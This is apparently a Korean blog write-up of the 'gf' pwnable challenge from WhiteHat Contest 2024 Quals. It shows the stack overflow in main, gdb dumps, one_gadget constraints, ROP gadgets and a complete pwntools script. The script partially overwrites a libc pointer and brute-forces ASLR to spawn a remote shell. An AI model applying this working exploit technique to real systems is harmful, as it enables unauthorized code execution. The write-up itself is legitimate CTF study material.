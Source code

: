 +++
title = "WhiteHat Contest 2024 Quals - gf"
date = "2024-11-19"
description = "WhiteHat Contest 2024 Quals pwnable challenge"

[taxonomies]
tags = ["ctf", "pwnable", "rop", "partial overwrite", "one gadget", "brute force"]
+++

## 0x00. Introduction
``` bash
[*] '/home/user/gf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
가젯 이리 저리 조합하다가 매몰되어버린 문제.

종료 20분 전에 알아버렸다...

## 0x01. Vulnerability
``` c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char dest[16]; // [rsp+10h] [rbp-10h] BYREF

  setbuf_4011A5();
  read(0, &unk_404060, 0xBCuLL);
  memcpy(dest, &unk_404060, 0xBBuLL);
  return 1LL;
}
```
16바이트 `dest`에 0xbc만큼 입력을 받는 단순한 BOF 취약점이 발생한다.

## 0x02. Exploit
출력 함수는 커녕 ROP를 하기 위한 가젯이 하나도 없다.

그러다가 메모리를 보고 힌트를 얻었다.
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x0000000000000000      0x0000000000000000
0x7fffffffed10: 0x0000000000000000      0x00007ffff7000000
```
`read()`의 마지막 부분인 `dest + 0xb8` 근처를 보면 매우 수상하게 libc 주소의 일부가 있다.

하위 3바이트가 `0x00`으로 되어있는데, 딱 이 부분까지 쓸 수 있다. 
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x4141414141414141      0x4141414141414141
0x7fffffffed10: 0x4141414141414141      0x00007ffff7434241
```
따라서 libc leak 없이 이 부분을 이용해서 예상되는 one shot 가젯 주소를 만들어두고 ASLR에 의해 확률적으로 해당 주소에 진짜 one shot 가젯이 로드되길 기대하는 방법이 있다.

`main()`에서 return을 할 때의 레지스터 값들은 다음과 같다.
``` bash
$rax   : 0x1
$rbx   : 0x0
$rcx   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdx   : 0xbb
$rsp   : 0x00007fffffffec98  →  0x0000000000000000
$rbp   : 0xa
$rsi   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdi   : 0x00007fffffffec80  →  "AAAAAAAAAAAAAAAA\n"
$rip   : 0x0000000000401281  →   ret
$r8    : 0x00007ffff7fabf10  →  0x0000000000000004
$r9    : 0x00007ffff7fc9040  →  0xe5894855fa1e0ff3
$r10   : 0x00007ffff7fc3908  →  0x000d00120000000e
$r11   : 0x246
$r12   : 0x00007fffffffeda8  →  0x00007fffffffef5c  →  0x3d48544150006667 ("gf"?)
$r13   : 0x000000000040122a  →   endbr64
$r14   : 0x0000000000403dc0  →  0x0000000000401160  →   endbr64
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
```
이 상태에서 one shot 가젯 조건을 맞춰줘야하는데 가젯만 몇 시간을 봤더니 바로 방법이 떠올랐다.
``` bash
➜  one_gadget libc.so.6
...
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
...
```
One shot 가젯 중 위와 같이 `rsi`, `rdx`에 조건이 걸려있는 가젯이 있었고 바이너리에 있는 가젯중 다음과 같은 것들이 있다.
``` bash
➜  objdump -M intel -d gf
...
# shift_rsi_ret gadget
  40112c:       48 89 f0                mov    rax,rsi
  40112f:       48 c1 ee 3f             shr    rsi,0x3f
  401133:       48 c1 f8 03             sar    rax,0x3
  401137:       48 01 c6                add    rsi,rax
  40113a:       48 d1 fe                sar    rsi,1
  40113d:       74 11                   je     401150 <setvbuf@plt+0xb0>
  40113f:       b8 00 00 00 00          mov    eax,0x0
  401144:       48 85 c0                test   rax,rax
  401147:       74 07                   je     401150 <setvbuf@plt+0xb0>
  401149:       bf 10 40 40 00          mov    edi,0x404010
  40114e:       ff e0                   jmp    rax
  401150:       c3                      ret
...
# pop_rsi_pop_rdx_push_rsi_ret gadget
  40119e:       5e                      pop    rsi
  40119f:       5a                      pop    rdx
  4011a0:       56                      push   rsi
  4011a1:       c3                      ret
```
우선 `rdx`는 `pop_rsi_pop_rdx_push_rsi_ret` 가젯을 통해 컨트롤이 가능하고 어떤 의도인지는 모르겠으나 `shift_rsi_ret` 가젯을 통해 `rsi`를 0.5바이트씩 right shift 할 수 있다.

`rsi`에는 `0x404060`가 저장되어있으므로 `shift_rsi_ret` 가젯을 6번 호출하면 `rsi`를 `0`으로 만들 수 있다.

추가로 `rbp-0x78`가 writable 해야하는 조건이 있는데 대충 Data 영역의 중간인 `0x404800`으로 설정해주었다.

확률을 계산해보면 `0x7ffff7XXXc88`가 실제로 one shot 가젯의 주소여야하므로 1.5바이트, 즉 1/4096 확률로 exploit이 성공한다.

그런데 예선이 끝나고 다른 분의 exploit을 보니 100% exploit에 성공할 수 있는 방법이 있었다.

몰랐던 내용이기도 하고 일반적으로 사용할 수 있을 것 같아서 따로 포스팅하겠다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "gf"
LIBRARY = "libc.so.6"
CONTAINER = "5189692c7e21"
bp = {
    'main_ret' : 0x401281,
}

gs = f'''
b *{bp["main_ret"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        # s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    shift_rsi_ret = 0x40112c
    pop_rsi_pop_rdx_push_rsi_ret = 0x40119e

    payload = b"A" * 0x10
    payload += p64(0x404800)
    payload += p64(pop_rsi_pop_rdx_push_rsi_ret)
    payload += p64(shift_rsi_ret)
    payload += p64(0)
    payload += p64(shift_rsi_ret) * 5
    payload += p64(bp['main_ret']) * ((0xb8 - len(payload)) // 8)
    payload += b"\x88\xac\x4b"      # 0x754c18 4b ac 88

    while 1:
        s = remote(server, port)
        s.sendline(payload)
        try:
            sleep(0.2)
            s.sendline(b"id")
            r = s.recvline(timeout=1)
            if b"(pwn)" in r:
                log.success(f"id : {r}")
                s.interactive()
                s.close()
            else:
                log.info(r)
        except Exception as e:
            log.failure(e)
            s.close()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```